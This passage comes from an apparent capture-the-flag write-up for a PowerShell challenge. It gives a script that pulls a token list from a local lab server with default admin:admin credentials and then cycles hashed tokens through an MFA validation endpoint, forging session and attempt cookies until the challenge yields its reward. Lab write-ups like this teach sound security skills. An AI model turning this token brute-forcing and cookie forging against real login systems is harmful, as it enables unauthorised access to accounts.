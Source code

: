 We still don't get any medal or a different message though. Perhaps the token we've chosen is not the right one, and we need a specific other one. To test this, we can create a loop that will go over all the tokens in the CSV file, making sure to skip the first line (the csv header), and the last eight line (comments).

```powershell
$cred = Get-Credential  # admin:admin
$csv = Invoke-WebRequest "http://127.0.0.1:1225/token_overview.csv" -Credential $cred -AllowUnencryptedAuthentication
foreach ($line in $($csv.Content -split "`n" | Select-Object -Skip 1 | Select-Object -SkipLast 8)){
    $rawToken = $line -split "," | Select-Object -First 1  # remove ,REDACTED from the line
    $token = "$rawToken`n"
    $tokenAsStream = [System.IO.MemoryStream]::new()
    $writer = [System.IO.StreamWriter]::new($tokenAsStream)
    $writer.write($token)
    $writer.Flush()
    $tokenAsStream.Position = 0
    $hash = (Get-FileHash -Algorithm SHA256 -InputStream $tokenAsStream).Hash

    $mfa = Invoke-WebRequest "http://127.0.0.1:1225/mfa_validate/$hash" -Credential $cred -AllowUnencryptedAuthentication -Headers @{Cookie="token=$rawToken; mfa_token=2735818892.786766; attempts=c25ha2VvaWwK10"}
    $mfa.RawContent
}
```

If we now run this and wait a second or two, we'll get the gold medal!

## Final elf message

> Incredible! You tackled the hard path and showed off some serious PowerShell expertise. This kind of skill is exactly what we need, especially with things heating up between the factions.
